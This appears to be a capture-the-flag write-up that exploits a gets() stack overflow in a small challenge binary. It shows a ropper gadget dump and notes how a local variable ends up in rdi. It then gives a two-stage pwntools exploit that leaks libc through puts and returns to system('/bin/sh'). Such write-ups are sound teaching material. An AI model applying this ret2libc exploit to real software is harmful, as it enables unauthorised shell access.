 # Exploration
 We are given the following binary (i've patched it to use correct libc):  
 ![image](https://github.com/AndreQuimper/Writeups/assets/96965806/0193b05f-95e4-46b2-9b81-f6fb18636df1)  

 Checking binary security measures:  
 ![image](https://github.com/AndreQuimper/Writeups/assets/96965806/701f2e5d-4fac-4391-8426-8a829fc9b327)  
 We can also assume ASLR is on by default.  

 Let's check the source code and see if there is anything interesting  
 ```c
#include <stdio.h>

void sus(long s) {}

int main(void) {
  setbuf(stdout, NULL);
  long u = 69;
  puts("sus?");
  char buf[42];
  gets(buf);
  sus(u);
}
```

Hmm... very small and innocent looking isn't it?  
At a first glance `gets` >:(  
but also the `sus` function doesn't do anything.  
No `win` function so we need to get a shell somehow, and since NX is enabled then no shellcoding allowed.  
Probably a `ret2libc` challenge so since this is 64 bit we need to find a gadget to load our registers with the correct values  

Using ropper we can see where the `challenge` comes from:  
```
Gadgets
=======


0x0000000000401078: adc dword ptr [rax], eax; call qword ptr [rip + 0x2f57]; hlt; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret;                                                                                                          
0x00000000004010ee: adc dword ptr [rax], edi; test rax, rax; je 0x3100; mov edi, 0x404028; jmp rax; 
0x000000000040107c: adc eax, 0x2f57; hlt; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x00000000004010ac: adc edi, dword ptr [rax]; test rax, rax; je 0x30c0; mov edi, 0x404028; jmp rax; 
0x000000000040111c: adc edx, dword ptr [rbp + 0x48]; mov ebp, esp; call 0x30a0; mov byte ptr [rip + 0x2f03], 1; pop rbp; ret;                                                                                                                     
0x0000000000401080: add ah, dh; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x000000000040107a: add bh, bh; adc eax, 0x2f57; hlt; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x000000000040100a: add byte ptr [rax - 0x7b], cl; sal byte ptr [rdx + rax - 1], 0xd0; add rsp, 8; ret; 
0x0000000000401088: add byte ptr [rax], al; add byte ptr [rax], al; nop dword ptr [rax]; ret; 
0x00000000004010ae: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x30c0; mov edi, 0x404028; jmp rax;                                                                                                                         
0x00000000004010f0: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x3100; mov edi, 0x404028; jmp rax;                                                                                                                         
0x000000000040119d: add byte ptr [rax], al; add byte ptr [rax], al; leave; ret; 
0x000000000040119e: add byte ptr [rax], al; add cl, cl; ret; 
0x000000000040108a: add byte ptr [rax], al; nop dword ptr [rax]; ret; 
0x0000000000401009: add byte ptr [rax], al; test rax, rax; je 0x3012; call rax; 
0x0000000000401009: add byte ptr [rax], al; test rax, rax; je 0x3012; call rax; add rsp, 8; ret; 
0x00000000004010b0: add byte ptr [rax], al; test rax, rax; je 0x30c0; mov edi, 0x404028; jmp rax; 
0x00000000004010f2: add byte ptr [rax], al; test rax, rax; je 0x3100; mov edi, 0x404028; jmp rax; 
0x000000000040107f: add byte ptr [rax], al; hlt; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x000000000040119f: add byte ptr [rax], al; leave; ret; 
0x000000000040112b: add byte ptr [rcx], al; pop rbp; ret; 
0x00000000004011a0: add cl, cl; ret; 
0x0000000000401079: add dil, dil; adc eax, 0x2f57; hlt; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x0000000000401006: add eax, 0x2fd5; test rax, rax; je 0x3012; call rax; 
0x0000000000401006: add eax, 0x2fd5; test rax, rax; je 0x3012; call rax; add rsp, 8; ret; 
0x0000000000401013: add esp, 8; ret; 
0x0000000000401012: add rsp, 8; ret; 
0x0000000000401121: call 0x30a0; mov byte ptr [rip + 0x2f03], 1; pop rbp; ret; 
0x0000000000401197: call 0x3146; mov eax, 0; leave; ret; 
0x000000000040107b: call qword ptr [rip + 0x2f57]; hlt; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x0000000000401010: call rax; 
0x0000000000401010: call rax; add rsp, 8; ret; 
0x0000000000401002: in al, dx; or byte ptr [rax - 0x75], cl; add eax, 0x2fd5; test rax, rax; je 0x3012; call rax; 
0x0000000000401149: in eax, 0x48; mov dword ptr [rbp - 8], edi; nop; pop rbp; ret; 
0x000000000040100e: je 0x3012; call rax; 
0x000000000040100e: je 0x3012; call rax; add rsp, 8; ret; 
0x00000000004010ab: je 0x30c0; mov eax, 0; test rax, rax; je 0x30c0; mov edi, 0x404028; jmp rax; 
0x00000000004010b5: je 0x30c0; mov edi, 0x404028; jmp rax; 
0x00000000004010ed: je 0x3100; mov eax, 0; test rax, rax; je 0x3100; mov edi, 0x404028; jmp rax; 
0x00000000004010f7: je 0x3100; mov edi, 0x404028; jmp rax; 
0x000000000040114c: jge 0x3146; nop; pop rbp; ret; 
0x00000000004010bc: jmp rax; 
0x0000000000401126: mov byte ptr [rip + 0x2f03], 1; pop rbp; ret; 
0x0000000000401145: mov dl, byte ptr [rbp + 0x48]; mov ebp, esp; mov qword ptr [rbp - 8], rdi; nop; pop rbp; ret; 
0x000000000040114b: mov dword ptr [rbp - 8], edi; nop; pop rbp; ret; 
0x00000000004010ad: mov eax, 0; test rax, rax; je 0x30c0; mov edi, 0x404028; jmp rax; 
0x00000000004010ef: mov eax, 0; test rax, rax; je 0x3100; mov edi, 0x404028; jmp rax; 
0x000000000040119c: mov eax, 0; leave; ret; 
0x0000000000401191: mov eax, dword ptr [rbp - 8]; mov rdi, rax; call 0x3146; mov eax, 0; leave; ret; 
0x0000000000401005: mov eax, dword ptr [rip + 0x2fd5]; test rax, rax; je 0x3012; call rax; 
0x0000000000401005: mov eax, dword ptr [rip + 0x2fd5]; test rax, rax; je 0x3012; call rax; add rsp, 8; ret; 
0x000000000040111f: mov ebp, esp; call 0x30a0; mov byte ptr [rip + 0x2f03], 1; pop rbp; ret; 
0x0000000000401148: mov ebp, esp; mov qword ptr [rbp - 8], rdi; nop; pop rbp; ret; 
0x00000000004010b7: mov edi, 0x404028; jmp rax; 
0x0000000000401195: mov edi, eax; call 0x3146; mov eax, 0; leave; ret; 
0x000000000040114a: mov qword ptr [rbp - 8], rdi; nop; pop rbp; ret; 
0x0000000000401190: mov rax, qword ptr [rbp - 8]; mov rdi, rax; call 0x3146; mov eax, 0; leave; ret; 
0x0000000000401004: mov rax, qword ptr [rip + 0x2fd5]; test rax, rax; je 0x3012; call rax; 
0x0000000000401004: mov rax, qword ptr [rip + 0x2fd5]; test rax, rax; je 0x3012; call rax; add rsp, 8; ret; 
0x000000000040111e: mov rbp, rsp; call 0x30a0; mov byte ptr [rip + 0x2f03], 1; pop rbp; ret; 
0x0000000000401147: mov rbp, rsp; mov qword ptr [rbp - 8], rdi; nop; pop rbp; ret; 
0x0000000000401194: mov rdi, rax; call 0x3146; mov eax, 0; leave; ret; 
0x0000000000401084: nop dword ptr [rax + rax]; nop dword ptr [rax]; ret; 
0x000000000040108c: nop dword ptr [rax]; ret; 
0x0000000000401083: nop dword ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x0000000000401082: nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x0000000000401003: or byte ptr [rax - 0x75], cl; add eax, 0x2fd5; test rax, rax; je 0x3012; call rax; 
0x00000000004010b6: or dword ptr [rdi + 0x404028], edi; jmp rax; 
0x000000000040112d: pop rbp; ret; 
0x000000000040111d: push rbp; mov rbp, rsp; call 0x30a0; mov byte ptr [rip + 0x2f03], 1; pop rbp; ret; 
0x0000000000401146: push rbp; mov rbp, rsp; mov qword ptr [rbp - 8], rdi; nop; pop rbp; ret; 
0x0000000000401042: ret 0x2f; 
0x000000000040100d: sal byte ptr [rdx + rax - 1], 0xd0; add rsp, 8; ret; 
0x00000000004011a5: sub esp, 8; add rsp, 8; ret; 
0x0000000000401001: sub esp, 8; mov rax, qword ptr [rip + 0x2fd5]; test rax, rax; je 0x3012; call rax; 
0x00000000004011a4: sub rsp, 8; add rsp, 8; ret; 
0x0000000000401000: sub rsp, 8; mov rax, qword ptr [rip + 0x2fd5]; test rax, rax; je 0x3012; call rax; 
0x0000000000401086: test byte ptr [rax], al; add byte ptr [rax], al; add byte ptr [rax], al; nop dword ptr [rax]; ret; 
0x000000000040100c: test eax, eax; je 0x3012; call rax; 
0x000000000040100c: test eax, eax; je 0x3012; call rax; add rsp, 8; ret; 
0x00000000004010b3: test eax, eax; je 0x30c0; mov edi, 0x404028; jmp rax; 
0x00000000004010f5: test eax, eax; je 0x3100; mov edi, 0x404028; jmp rax; 
0x000000000040100b: test rax, rax; je 0x3012; call rax; 
0x000000000040100b: test rax, rax; je 0x3012; call rax; add rsp, 8; ret; 
0x00000000004010b2: test rax, rax; je 0x30c0; mov edi, 0x404028; jmp rax; 
0x00000000004010f4: test rax, rax; je 0x3100; mov edi, 0x404028; jmp rax; 
0x0000000000401193: clc; mov rdi, rax; call 0x3146; mov eax, 0; leave; ret; 
0x000000000040114d: clc; nop; pop rbp; ret; 
0x0000000000401081: hlt; nop word ptr cs:[rax + rax]; nop dword ptr [rax]; ret; 
0x00000000004011a1: leave; ret; 
0x000000000040114e: nop; pop rbp; ret; 
0x00000000004010bf: nop; ret; 
0x0000000000401016: ret; 

93 gadgets found
```
Can you spot it? There is no `pop rdi;` gadget in the program.
However, close inspection of the binary shows us this:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/6817718a-b3cc-473b-a20d-7344021c6338)  
The `u` variable is moved into `rdi` and since the `sus` function does not do anything, it will be there once `main` returns.
Therefore we can abuse `u` to pass function arguments to whatever function we return to.  

# Exploitation
Steps:  
1. leak memory to bypass ASLR
2. call system(/bin/sh)

We can use a pretty standard trick for PIE disabled binaries to leak aslr memory and then ROP back into the main function for our second stage exploitation  
```python
# STAGE 1: Leak memory 
# payload 56*a + function_param + 8*a (padding to return) + function + rop
payload = 56*b'A' + p64(exe.got['gets']) + 8*b'A' + p64(exe.plt['puts']) + p64(exe.sym.main)
io.sendline(payload)

print(io.recvline())
leak = io.recvline()
log.success(hex(int.from_bytes(leak[::-1])))
leak = int.from_bytes(leak[::-1])
leak = leak & 0xffffffffffff
log.success(hex(leak))

libc.address =  leak - libc.sym['gets']
log.success("Base of libc: " + hex(libc.address))
```

Then that we have bypassed aslr we can ret2libc  
```python
# STAGE 2: call system
# payload will call system('/bin/sh')

binsh = next(libc.search(b'/bin/sh'))
payload = 56*b'A' + p64(binsh) + 8*b'A' + p64(r.ret.address) + p64(libc.sym.system)
# needs stack alignment
#payload = 56*b'A' + p64(binsh) + 8*b'A' + p64(libc.sym.system)

io.sendline(payload)
```

Thats it :D  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c9175d95-4509-4067-a213-b971521a6102)



